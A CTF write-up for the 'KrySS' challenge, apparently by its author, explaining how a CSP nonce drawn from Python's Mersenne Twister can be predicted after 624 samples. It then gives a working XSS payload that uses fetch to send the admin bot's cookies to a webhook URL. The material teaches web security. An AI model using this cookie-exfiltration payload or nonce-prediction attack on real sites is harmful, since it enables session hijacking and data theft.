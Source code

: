 ```yaml
---
title: kryss
published: 2024-12-09
description: 'kryss web writeup from DEFENSYS 2024 CTF'
tags: [ctf, web, crypto]
image: ../../assets/kryss/kryss.jpg
category: 'challenge'
draft: false 
lang: 'en'
---
```


so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution
![](src/assets/kryss/KrySS_image_1.png)

in the / route we got this page and a button that should give us a cookie, and when click on it we got the following :
![](src/assets/kryss/KrySS_image_2.png)

and its a unique userId (we will see later what this is used for)

![](src/assets/kryss/KrySS_image_3.png)

and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex and store it in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see an obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header which will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but can we predict each users sequence, if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* https://cryptopals.com/sets/3/challenges/23
* https://cryptopals.com/sets/3/challenges/22

but we can use a tool for that:

::github{repo="tna0y/Python-random-module-cracker"}

* It requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenges domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `?http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51
* full payload generator will be in the exploit.py
* submit that url to the admin bot
* and then get the flag from the webhook

![](src/assets/kryss/KrySS_image_4.png)

